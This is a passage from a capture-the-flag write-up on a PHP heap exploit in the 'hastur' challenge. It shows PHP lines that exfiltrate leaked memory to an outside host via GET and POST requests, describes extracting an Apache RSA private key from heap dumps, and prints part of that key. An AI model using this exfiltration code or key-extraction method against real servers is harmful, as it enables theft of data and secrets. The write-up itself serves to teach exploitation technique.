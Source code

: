 {% highlight php %}
hastur_ia_ia_handler($text, $name);
echo $victim[0];
{% endhighlight %}

Now this will not work, because PHP will crash on shutdown while trying to
deallocate the `$victim` array and all of its members (some of which are just
pointers to `0x61616161`). But that's not a problem, we can get the data out
before shutdown:

{% highlight php %}
file_get_contents('https://kitctf.de/win/'. urlencode($data));
{% endhighlight %}

And sure enough:

    40.74.83.38 - - [05/Sep/2016:12:25:38 +0200] "GET /win/TWCTF%7Bd315e24abcc494289a9d6df422e77f67c6476e24_dump_dump_dump%7D%0A%00 HTTP/1.0" 404 541 "-" "-"

Check our Github to look at the [complete final exploit](https://github.com/kitctf/writeups/blob/master/tokyowesterns2016/hastur/flag2.php).

## Flag 3: Dump, Dump, Dump

For flag 3, we had a PCAP with an SSL-encrypted connection to port 31179 on the
same server. Presumably it would contain the flag. So our idea was to execute
our exploit against the SSL-enabled server and dump all of its heap memory,
looking for RSA keys. So we adapted our exploit to send the data back via
a POST request:

{% highlight php %}
$options = [
    'http' => [
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query(['x' => $victim[0]])
    ]
];
$context  = stream_context_create($options);
$result = file_get_contents('http://kitctf.de:4444/', false, $context);
{% endhighlight %}

And used it to dump [three memory regions](https://github.com/kitctf/writeups/blob/master/tokyowesterns2016/hastur/heap_dump.tar.gz) tagged with `[heap]`. First we tried
grepping for the string `BEGIN RSA PRIVATE KEY`, but no such luck. Next we
found a utility called
[*passe-partout*](http://www.hsc.fr/ressources/outils/passe-partout/)
which can extract RSA keys from Apache memory via ptrace. Of
course this is not directly applicable in our scenario, but we [modified it to
read the memory from files](https://github.com/niklasb/apache-ssl-key-extract)
and ran it over our dumps. And it found us the key:

    root@ubu1404:/ctf/tokyo/hastur/dump# ls
    1  2  3
    root@ubu1404:/ctf/tokyo/hastur/dump# ../apache-ssl-key-extract/passe-partout
    found RSA key @ 0x5775eee8
    [X] Key saved to file id_rsa-0.key
    root@ubu1404:/ctf/tokyo/hastur/dump# cat id_rsa-0.key
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAugrnYx/J08Ory/ACUAL4Qx6IwB7XyZguLTYfVBZc9fA/sPql
    H0CxlExWyEpKqw3XgHyvBbWdxjk3JFeCj2CnbbjkbDDVfmAja2NTub/pl3K5EIIb
    mKsdhwwYv+yDAefSmweUbpFJd/dq8sS63aY/NrwztsGteMFkE6fhbuYfIdcJQrml
    lxoPRmfZrD05Iexsyd06UO0bW9gNwQAZ2PiZWzHGoDmgC18OjJgp8UUPntGtqH2c
    Ux4XGnSW5nZYYMSuzmFxeYMi3hYdyi8SMf0nC7QATsQijdF+ek+0L4trA76R1gl3
    HYMF/hZJesitMauOGY3x35iX4OvNDxOd/OLqmQIDAQABAoIBAQCADA80L2XnZc6x
    n/DHhzO+Zp6ytMfKzf5CSfUIGBhFgeUkd2788rcGngBA/LklwHIp0idYo6cDDtBA
    KCcJbfnu0AoP2RCoWZ0nRYcT2t34yhJMJXC/BE9fatkCB9QnlJpk77Oe4kqR0m3+